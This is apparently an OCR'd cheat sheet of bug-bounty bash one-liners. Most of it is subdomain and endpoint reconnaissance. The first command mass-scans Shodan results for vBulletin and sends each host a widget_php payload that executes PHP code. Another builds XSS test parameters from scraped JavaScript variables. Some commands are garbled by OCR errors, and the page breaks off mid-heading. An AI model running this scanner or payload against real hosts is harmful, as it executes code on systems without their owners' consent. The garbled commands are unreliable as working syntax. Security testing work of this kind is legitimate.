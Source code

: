 ```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
**Find JS Files**
```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```
**Extract Endpoints from JS File**
```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
**Get CIDR & Orgz from Target Lists**
```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```
**Get Subdomains from RapidDNS.io**
```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1**esult" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/**esults//g' | sort -u
```
**Get Subdomains from BufferOver.run**
```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```
**Get Subdomains from Riddler.io**
```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```
**Get Subdomains from VirusTotal**
```bash
curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
**Get Subdomains from CertSpotter**
```bash
curl -s "https://certspotter.com/api/v1/issuances?domain=domain.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | tr -d '[]"\n ' | tr ',' '\n'
```
**Get Subdomains from Archive**
```bash
curl -s "http://web.archive.org/cdx/search/cdx?url=*.domain.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```
**Get Subdomains from JLDC**
```bash
curl -s "https://jldc.me/anubis/subdomains/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
**Get Subdomains from securitytrails**
```bash
curl -s "https://securitytrails.com/list/apex_domain/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".domain.com" | sort -u
```
**Bruteforcing subdomain using DNS Over**
```bash
while read sub;do echo "https://dns.google.com/resolve?name=$sub.domain.com&type=A&cd=true" | parallel -j100 -q curl -s -L --silent  | grep -Po '[{\[]{1}([,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]|".*?")+[}\]]{1}' | jq | grep "name" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".domain.com" | sort -u ; done < wordlists.txt
```
**Get Subdomains With sonar.omnisint.io**